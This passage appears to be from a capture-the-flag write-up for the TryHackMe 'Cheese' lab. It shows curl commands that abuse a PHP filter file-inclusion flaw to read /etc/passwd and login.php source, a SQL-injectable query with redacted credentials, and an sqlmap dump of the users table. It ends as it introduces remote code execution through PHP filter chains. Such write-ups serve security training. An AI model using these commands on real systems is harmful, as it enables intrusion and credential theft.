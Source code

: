 ## User Flag
### LFI
It seems like a typical `LFI` vulnerability, let's see if we can read `/etc/passwd`

```console
m3ga@kali:~$ curl 'http://10.10.96.72/secret-script.php?file=php://filter/resource=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

Perfect! I went ahead and read the source code of the `login.php` page.
```console
m3ga@kali:~$ curl 'http://10.10.96.72/secret-script.php?file=php://filter/convert.base64-encode/resource=login.php' | base64 -d
...
// Replace these with your database credentials
$servername = "localhost";
$user = "comte";
$password = "[REDACTED]";
$dbname = "users";
...
$hashed_password = md5($pass);
// Query the database to check if the user exists
$sql = "SELECT * FROM users WHERE username='$filteredInput' AND password='$hashed_password'";
...
```

We can see the credentials used to connect to the database, but unfortunately we can not connect to it unless we are connecting locally.

Further inspecting the code, we realize that there is an `SQL Injection` vulnerability. I used `sqlmap` to dump the database.

```console
m3ga@kali:~/tryhackme/Cheese$ sqlmap -r r.raw --dbms=mysql --tamper=space2comment -D users -T users -C username,password --dump
```

> Since this was a blind SQLi, it took a while to dump the only entry that was in the database just to realize that this was a rabbit hole. I ended up dumping the username and password's hash. The hash is not crackable.
{: .prompt-warning}

### LFI2RCE via PHP Filters
Going back to the `LFI` vulnerability, after some testing, I realized we can run php commands by using [php filtlers](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters).

Using this script, I was able to generate a filter chain to remotely execute commands on the system. To test the vulnerability, I tried to execute `phpinfo()` first.

